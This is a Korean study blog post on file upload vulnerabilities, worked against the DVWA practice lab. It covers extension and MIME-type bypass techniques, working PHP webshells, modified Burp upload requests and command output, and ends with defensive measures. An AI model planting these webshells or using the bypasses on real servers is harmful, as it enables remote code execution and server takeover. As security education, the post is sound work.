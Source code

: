 ```yaml
---
layout: post
title: "파일 업로드 취약점 공부"
date: 2025-08-28 17:00:00 +0900
categories: [웹 해킹]
---
```


### 1. 개요

파일 업로드 취약점은 서버 측에서 업로드되는 파일의 확장자나 내용을 제대로 검증하지 않을 때 발생한다. 공격자는 이 취약점을 이용해 악의적인 스크립트 파일(웹쉘)을 서버에 업로드하여 원격에서 시스템 명령어를 실행(RCE)하고 최종적으로 서버의 제어권을 획득할 수 있다.

---

### 2. 주요 우회 기법

단순히 `.php` 파일을 업로드하는 것은 대부분의 필터링에 막히므로 이를 우회하는 기법이 필요하다.

*   **확장자 필터링 우회:**
    서버가 특정 확장자를 블랙리스트 방식으로 필터링할 때 사용된다. `.php` 대신 `.phtml` · `.php3` · `.inc` 등 웹 서버가 PHP로 해석할 수 있는 다른 확장자를 시도하거나 `shell.pHp`처럼 대소문자를 혼용하여 우회를 시도할 수 있다.

*   **MIME 타입 검증 우회:**
    서버가 파일 확장자 대신 HTTP 요청 헤더의 `Content-Type`을 기준으로 파일 종류를 판단할 때 사용된다. 이 값은 클라이언트가 보내는 정보이므로 Burp Suite와 같은 프록시 툴을 이용해 `Content-Type: application/x-php`를 `Content-Type: image/jpeg`와 같이 정상적인 이미지 파일처럼 조작하여 필터링을 우회할 수 있다.


---

### 3. 웹쉘 (Webshell)

웹쉘은 웹 서버를 통해 시스템 명령어를 실행할 수 있도록 만들어진 스크립트 파일이다.

#### **기본 웹쉘**
가장 단순한 형태의 웹쉘은 URL 파라미터를 통해 전달받은 명령어를 그대로 실행하고 결과를 출력한다. `cmd`라는 파라미터로 명령어를 전달받는 예시이다.
```php
<?php
  if(isset($_REQUEST['cmd'])){
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
  }
?>
```

이 파일을 `shell.php`로 저장해 업로드하고, 다음과 같이 접근하면 명령어가 실행된다:

```
GET /hackable/uploads/shell.php?cmd=whoami HTTP/1.1
Host: dvwa.local
```

서버 응답은 다음과 같이 `www-data`를 포함한다:

```
HTTP/1.1 200 OK
...

www-data
```

#### **개선된 웹쉘 (간이 파일 브라우저)**
조금 더 발전된 형태의 웹쉘은 단순히 명령어를 실행하는 것을 넘어 서버의 파일 시스템을 탐색하는 기능을 포함할 수 있다. 아래 코드는 `path` 파라미터로 전달된 경로의 파일과 디렉터리 목록을 보여주는 간단한 파일 브라우저 역할을 한다.
```php
<?php
  $path = isset($_GET['path']) ? $_GET['path'] : '.';
  $files = scandir($path);
  
  foreach($files as $file) {
    // 현재 디렉터리(.)와 상위 디렉터리(..) 링크 생성
    if ($file == '.') {
      echo "<a href='?path={$path}'>.</a><br>";
    } elseif ($file == '..') {
      $parent_path = dirname($path);
      echo "<a href='?path={$parent_path}'>..</a><br>";
    } else {
      echo $file . "<br>";
    }
  }
?>
```

---

### 4. 사용 예시: Burp Suite를 이용한 MIME 타입 우회

서버가 `Content-Type` 헤더만 검증한다면, 공격자는 이를 조작해 PHP 파일을 업로드할 수 있다.

#### **1. 원본 요청 (차단됨)**
```http
POST /vulnerabilities/upload/ HTTP/1.1
Host: dvwa.local
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary...

------WebKitFormBoundary...
Content-Disposition: form-data; name="uploaded"; filename="shell.php"
Content-Type: application/x-php

<?php system($_GET['cmd']); ?>
------WebKitFormBoundary...
```
→ 이 요청은 대부분의 필터에서 차단된다.

#### **2. 변조된 요청 (우회 성공)**
Burp Suite에서 `Content-Type`을 `image/jpeg`로 수정:

```http
Content-Disposition: form-data; name="uploaded"; filename="shell.php"
Content-Type: image/jpeg   ← 여기만 바뀜!
```

이 요청을 전송하면 서버가 "이건 이미지야"라고 판단해 파일을 저장한다.

#### **3. 웹쉘 실행 확인**
업로드 후, 다음 URL로 접근:

```
http://dvwa.local/hackable/uploads/shell.php?cmd=id
```

응답 본문에 다음이 출력되면 성공:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---

### 5. 방어 방안

*   **확장자 화이트리스트:** `.php`, `.jsp` 등 위험한 확장자를 금지하는 블랙리스트 방식 대신 `.jpg` · `.png` · `.gif` 와 같이 허용된 확장자만 업로드할 수 있도록 화이트리스트 방식을 사용해야 한다.
*   **파일 내용 검증:** 확장자나 MIME 타입은 조작될 수 있으므로 `getimagesize()`와 같은 함수를 이용해 파일의 내용이 실제 이미지 데이터인지 검증해야 한다.
*   **업로드 경로 제어:** 업로드된 파일이 저장되는 디렉터리는 웹에서 직접 접근할 수 없는 경로(Web Root 외부)에 위치시키거나 만약 웹에서 접근해야 한다면 해당 디렉터리의 스크립트 실행 권한을 제거해야 한다.

<hr class="short-rule">